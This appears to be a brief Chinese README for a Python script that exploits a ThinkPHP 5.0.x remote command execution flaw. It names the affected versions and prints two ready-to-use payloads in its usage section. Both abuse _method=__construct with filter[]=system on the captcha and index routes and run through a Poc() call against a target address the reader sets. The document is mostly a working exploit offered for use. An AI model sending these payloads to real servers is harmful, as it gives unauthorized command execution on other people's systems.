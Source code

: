 # 简介

    author:jeffery.yu
    script is maded by python3
    blog: https://www.yu2lulu.xyz
    descibe: thinkphp5.x远程命令执行
        受影响版本：ThinkPHP 5.0.x
        不受影响版本：ThinkPHP 5.0.24


# 使用方法
### 1.修改代码
    if __name__=="__main__":
    exp1="_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=env"
    exp2="s=env&_method=__construct&method=&filter[]=system"
    exp={
        '/public/index.php?s=captcha':exp1,
        '/public/index.php?s=index/index/index':exp2
    }
    Poc("http://10.211.55.6:12306",exp)  #修改为你的ip和端口即可
    
### 2.python tp5.x远程命令执行.py 
